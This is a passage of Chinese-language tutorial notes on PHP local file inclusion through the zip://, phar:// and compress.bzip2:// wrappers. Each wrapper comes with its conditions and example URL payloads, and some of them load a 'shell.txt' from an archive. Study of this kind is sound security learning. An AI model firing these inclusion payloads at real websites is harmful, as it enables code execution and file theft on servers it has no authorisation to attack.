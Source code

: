 4. 案例

   ```php
   [URL]?file=zip://D:/WWW/file.zip%23phpcode.txt
   	or
   [URL]?file=zip://D:/WWW/file.zip%23php/phpcode.txt
       or
   [URl]?file=zip://D:/WWW/file.jpg%23phpcode.txt
   ```

![zip伪协议](http://113.45.142.235:9001/laffrex/pictures/zip伪协议.png)

****

##### f. phar://协议

1. 用途

   * 读取压缩包内的文件

2. 使用条件

   > * 知道**相对路径或绝对路径**
   > * php版本 > 5.3

3. 使用方法

   ```php
   [URL]?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/phpinfo.txt
   	or
   [URL]?file=phar://test.zip/phpinfo.txt
   ```

4. 案例

   ```php
   http://192.168.172.150/include.php?file=phar://shell.zip/shell.txt
   ```

****

##### g. compress.bzip2://

1. 用途

   * 读取压缩包内的文件

2. 使用条件

   > * 知道**相对路径或绝对路径**

3. 使用方法

   * 压缩bzip2文件的方法：

     **Bzip2 -k shell.txt**

   ```php
   [URL]?file=compress.bzip2://shell.txt.bz2
   ```
